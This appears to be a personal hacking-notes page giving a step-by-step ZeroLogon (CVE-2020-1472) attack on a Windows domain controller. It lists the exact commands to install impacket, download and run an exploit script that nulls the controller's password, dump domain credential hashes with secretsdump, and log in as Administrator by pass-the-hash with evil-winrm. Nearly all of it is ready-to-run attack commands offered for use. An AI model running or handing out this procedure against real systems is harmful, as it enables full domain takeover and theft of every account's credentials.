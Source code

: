 # How to perform the Zero Logon Exploit  

## 1. Perform these commands (in order) on attack machine:
```
python3 -m pip install virtualenv
```
```
python3 -m virtualenv impacketEnv
```
```
source impacketEnv/bin/activate
```
pip install git+https://github.com/SecureAuthCorp/impacket  

## 2. Put zeroLogon-NullPass.py on attack machine:
```
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```
Note: if the link above ever breaks, you can find the same code in the same directory that this code is found (https://github.com/KyserClark/Hacking-Notes/blob/main/Exploits/Zero%20Logon/zeroLogon-NullPass.py)   

## 3. Perform this command:
```
python3 zeroLogon-NullPass.py [DC NetBIOS Name] [MACHINE-IP]
```
Note: You can use nmap to find the NetBIOS name of the domain controller:
```
nmap -sC -sV [TARGET-IP]
```  

## 4. Dump hashes:
```
secretsdump.py -just-dc -no-pass [DC NetBIOS Name]\$@[MACHINE-IP]
```  

## 5. Login with account hash:
```
evil-winrm -i [TARGET-IP] -u Administrator -H [NTLM-HASH]
```  

## 6. Actions on Objective
